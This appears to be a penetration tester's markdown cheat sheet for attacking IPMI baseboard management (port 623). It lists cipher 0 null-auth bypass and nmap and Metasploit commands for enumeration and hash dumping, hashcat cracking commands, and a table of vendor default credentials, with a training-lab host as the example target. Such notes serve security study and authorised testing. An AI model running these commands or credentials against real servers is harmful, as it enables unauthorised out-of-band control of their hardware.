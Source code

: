 ```yaml
---
title: IPMI
tags: [service, enum]
service: IPMI
protocol: ['udp', 'tcp']
port: [623]
auth: ['default-creds', 'password', 'null-auth (cipher0)']
tools: ['nmap', 'ipmitool', 'hydra']
notes: "Baseboard management; weak/default creds and cipher0"
---
```


# Intelligent Platform Management Interface

## Common Attack Paths

### Enumeration
- [ ] Check cipher 0 auth bypass → `ipmitool -I lanplus -C 0 -U "" -P ""`
- [ ] Banner grab with nmap scripts → `nmap --script=ipmi* -p623 <target>`

### Attack Paths
- Default creds → `ADMIN/ADMIN`
- Cipher 0 null authentication → full remote control
- Dump hashes via IPMI auth → crack offline
- Firmware upload / persistent backdoor

### Auxiliary Notes
- Dangerous: often runs out-of-band, gives BIOS/OS control.
- Treat as high-value target if accessible.
- Sometimes reachable only on management VLANs.

---

## General Enumeration

*Common Commands*

`$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local`

### Msfconsole Version Scan | Hash Dum

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 

# Hash dump
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### Crack the hashes with hascat

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u

# With other wordlist
hashcat -m 7300 /tmp/1 /usr/share/wordlists/rockyou.txt
```

### Common or default logins

| Product | Username | Password |
| --- |  --- |  --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomised 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN | ADMIN |

### Service Information

- [Pentesting IPMI](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/)
